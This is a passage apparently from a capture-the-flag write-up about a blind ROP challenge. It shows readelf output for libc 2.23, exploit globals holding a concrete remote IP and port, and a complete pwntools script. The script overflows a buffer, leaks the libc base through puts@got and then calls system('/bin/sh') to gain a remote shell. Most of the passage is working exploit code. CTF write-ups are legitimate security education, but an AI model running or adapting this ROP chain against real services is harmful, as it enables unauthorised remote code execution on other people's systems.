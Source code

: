 ```bash
readelf -s ./libc-2.23.so | grep "puts"
   186: 000000000006f6a0   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f6a0   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bce0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d690   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e040   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e040   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782c0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```

Here's all the global variables we use

```py
import pwn
# Global Variables
libc = pwn.ELF("libc-2.23.so")
HOST = "34.159.129.6"
PORT = 30550
OFFSET = 88
BINARY_BASE = 0x400000
RIP = 0x40070a
DUMP_FUNC = BINARY_BASE + 1806
LOOPBACK_FUNC = BINARY_BASE + 0x5c0
BROP_GADGET = 0x4007ba
CALL_PUTS = 0x400560
PUTS_GOT = 0x601018
```

## Exploit
---
We have everything we need to craft our `ROP chain` we'll call `puts@got` with `puts@plt` as its argument to leak `libc address` and then we'll loop back to our original function to use the `buffer overflow` bug again and this time call `system('/bin/sh')` to drop a shell.

Here is the final exploit function -

```py
def exploit():
    io = pwn.remote(HOST, PORT)
    payload = b'A'*OFFSET
    payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
    payload += pwn.p64(PUTS_GOT)
    payload += pwn.p64(CALL_PUTS)
    payload += pwn.p64(LOOPBACK_FUNC)
    io.recvuntil(b"?\n")
    io.send(payload)
    leak = io.recvline().strip()
    leak = pwn.unpack(leak, 'all')
    pwn.log.success("Puts Leak: " + hex(leak))
    libc.address = leak - libc.symbols['puts']
    pwn.log.success("Libc Address: " + hex(libc.address))
    io.recvuntil(b"?\n")
    binsh = next(libc.search(b'/bin/sh\0'))
    payload = b'A'*OFFSET
    payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
    payload += pwn.p64(binsh)
    payload += pwn.p64(libc.sym['system'])
    io.send(payload)
    io.interactive()
```
